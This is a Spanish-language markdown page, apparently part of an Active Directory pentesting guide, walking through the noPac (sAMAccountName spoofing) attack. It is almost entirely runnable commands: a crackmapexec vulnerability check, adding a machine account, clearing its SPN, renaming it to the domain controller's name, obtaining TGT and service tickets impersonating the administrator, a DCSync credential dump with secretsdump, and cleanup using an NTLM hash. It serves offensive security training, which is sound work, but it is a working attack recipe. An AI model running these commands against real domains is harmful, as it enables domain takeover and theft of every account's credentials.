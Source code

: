 # SamAccountName (nopac)

Para este ataque se va a añadir un ordenador, borrar el SPN de ese ordenador, renombrar el ordenador con el mismo nombre que el DC, obtener un TGT para ese ordenador, restablecer el nombre del ordenador a su nombre original, obtener un ticket de servicio con el TGT que obtuvimos anteriormente y finalmente dcsync :)


```Bash
# Comprobamos que el equipo es vulnerable a nopac
poetry run crackmapexec smb <ip del DC> -u <user> -p <pass> -M nopac
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac1.png?raw=true "Check NoPac")

```Bash
# Necesitamos una versión específica de impacket para los scripts renameMachine.py y getST.py (En exegol ya viene preinstalada)
git clone https://github.com/SecureAuthCorp/impacket myimpacket
cd myimpacket
git fetch origin pull/1224/head:1224
git fetch origin pull/1202/head:1202
git merge 1202
git merge 1224
cd ..
git clone https://github.com/dirkjanm/krbrelayx
```

Proceso de ejecución:

```Bash
# Añadimos un nuevo equipo
python addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host <nombre completo del DC en el dominio> -domain-netbios <dominio> '<dominio>/<user>:<pass>'
# Borramos el SPN del equipo con el script que debemos sacar del repositorio de GitHub: https://github.com/dirkjanm/krbrelayx
python addspn.py --clear -t 'samaccountname$' -u '<dominio>/<user>' -p 'pass' '<nombre completo del DC en el dominio>'
# Renombrar el nuevo equipo con el nombre del DC
python renameMachine.py -current-name 'samaccountname$' -new-name '<nombre DC>' -dc-ip '<nombre completo del DC en el dominio>' <dominio>/<user>:<pass>
# Obtenemos el TGT
python getTGT.py -dc-ip '<nombre completo del DC en el dominio>' '<dominio>'/'<nombre DC (nuevo equipo)>':'<pass equipo>'
# Devolvemos el nuevo equipo al nombre original
python renameMachine.py -current-name '<nombre DC (nuevo equipo)>' -new-name 'samaccountname$' <dominio>/<user>:<pass>
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac2.png.gif?raw=true "NoPac manual 1")
```Bash
# Obtenemos el ST (service ticket) con S4U2self usando el TGT previo
export KRB5CCNAME=<nombre DC (nuevo equipo)>.ccache
python getST.py -self -impersonate 'administrator' -altservice 'CIFS/<nombre completo del DC en el dominio>' -k -no-pass -dc-ip '<nombre completo del DC en el dominio>' '<dominio>'/'<nombre DC (nuevo equipo)>' -debug
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac3.png.gif?raw=true "NoPac manual 2")
```Bash
# DCSync presentando el ST
export KRB5CCNAME=administrator@CIFS_<nombre completo del DC en el dominio>@<dominio completo>.ccache
python secretsdump.py -k -no-pass -dc-ip '<nombre completo del DC en el dominio>' @'<nombre completo del DC en el dominio>'
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac4.png.gif?raw=true "NoPac manual 3")
```Bash
# Eliminamos el equipo creado
python addcomputer.py -computer-name 'samaccountname$' -delete -dc-host <nombre completo del DC en el dominio> -domain-netbios <dominio> -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' '<dominio>/Administrator'
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac5.png.gif?raw=true "NoPac manual 4")

